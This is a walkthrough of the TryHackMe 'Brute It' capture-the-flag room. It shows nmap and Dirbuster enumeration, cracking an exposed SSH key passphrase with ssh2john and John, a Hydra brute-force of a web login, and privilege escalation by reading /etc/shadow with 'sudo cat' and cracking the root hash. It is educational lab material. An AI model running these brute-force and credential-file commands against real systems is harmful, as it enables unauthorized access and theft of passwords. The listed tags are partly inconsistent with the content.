 TryHackMe: Brute It – Full Walkthrough
Introduction
Room: Brute It
Link: https://tryhackme.com/room/bruteit
Difficulty: Easy
Tags: Reverse shell, Privilege escalation, sudo vulnerability

Platform: TryHackMe

Difficulty: Easy

Tags: SSH, brute-force, hash cracking, privilege escalation, Linux

Description:
Brute It is a beginner-friendly CTF room that focuses on enumeration, brute-forcing credentials, and privilege escalation. The goal is to work from web enumeration to full root compromise, leveraging multiple attack vectors.

Table of Contents
1. Reconnaissance

2. Web & Directory Enumeration

3. Private SSH Key Discovery & Cracking

4. Web Panel Password Brute-Force

5. SSH Shell Access

6. Privilege Escalation

7. Capturing Flags

8. Tools Used

9. Key Screenshots

10. References

1. Reconnaissance
Nmap Scan
First, I ran an Nmap scan to identify open services and versions:

bash
Copy
Edit
nmap -A <target-ip>
Findings:

22/tcp – SSH

80/tcp – HTTP (Apache)



2. Web & Directory Enumeration
Used Dirbuster to uncover hidden directories:

bash
Copy
Edit
dirbuster -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
Results:

/admin – Likely admin panel

/admin/panel/id_rsa – Private SSH key found



Exploring /admin in the browser and checking the HTML source revealed a potential username for later use.

3. Private SSH Key Discovery & Cracking
Downloaded the private SSH key:

bash
Copy
Edit
wget http://<target-ip>/admin/panel/id_rsa -O id_rsa
Converted the key to a hash with ssh2john:

bash
Copy
Edit
ssh2john id_rsa > hash.txt
Cracked the passphrase with John:

bash
Copy
Edit
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

4. Web Panel Password Brute-Force
Used Hydra to brute-force the admin panel password:

bash
Copy
Edit
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/admin/:user=admin&pass=^PASS^:invalid" -f -V
Credentials Found:

Username: admin (from HTML source)

Password: xavier (via Hydra)

Logged into the admin panel and retrieved the web flag.


5. SSH Shell Access
Changed the SSH key permissions:

bash
Copy
Edit
chmod 600 id_rsa
Logged in as john using the cracked passphrase:

bash
Copy
Edit
ssh john@<target-ip> -i id_rsa
Captured the user flag in /home/john/user.txt.

6. Privilege Escalation
Enumerated sudo permissions:

bash
Copy
Edit
sudo -l
Finding:

User john can run cat as root without a password.

Read root’s hash from /etc/shadow:

bash
Copy
Edit
sudo cat /etc/shadow | grep root > root_hash.txt
Cracked the root hash with John:

bash
Copy
Edit
john root_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Logged in as root:

bash
Copy
Edit
su root
7. Capturing Flags
User Flag: Found in /home/john/user.txt

Root Flag: Found in /root/root.txt


8. Tools Used
Nmap – Service & version detection

Dirbuster – Directory enumeration

Hydra – Brute-forcing web logins

ssh2john / John the Ripper – SSH key passphrase & hash cracking

wget – File download

ssh – Remote shell access

sudo / cat – Privilege escalation

su – Root login

9. Key Screenshots
🔍 Nmap Scan

📂 Dirbuster Results

🔑 SSH Key Cracked

🔓 Admin Panel Login

💻 User Shell Access

🛡 Root Hash Cracked

🏁 Root Shell

10. References
TryHackMe: Brute It

GTFOBins – cat

rockyou.txt password list